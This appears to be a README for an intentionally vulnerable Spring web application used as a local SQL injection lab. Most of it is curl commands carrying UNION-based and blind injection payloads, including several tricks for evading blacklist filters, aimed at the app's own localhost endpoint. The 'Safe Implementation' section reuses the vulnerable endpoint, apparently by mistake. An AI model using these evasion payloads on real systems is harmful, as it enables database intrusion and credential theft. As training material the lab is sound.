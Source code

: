 # SQLi vulnerable Spring Application

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- " -d blacklistconfig=oddsinglequotes
```

##### All Lowercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select @@version) -- " -d blacklistconfig=alllowercase
```

##### All Uppercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- " -d blacklistconfig=alluppercase
```

##### Keyword Combination Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(select @@Version) -- " -d blacklistconfig=keyworddetection
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) --
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N')
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- "
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- "
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- "
```

##### All together

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' union select null,null,(select @@version) -- " -d blacklistconfig=oddsinglequotes,alllowercase
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
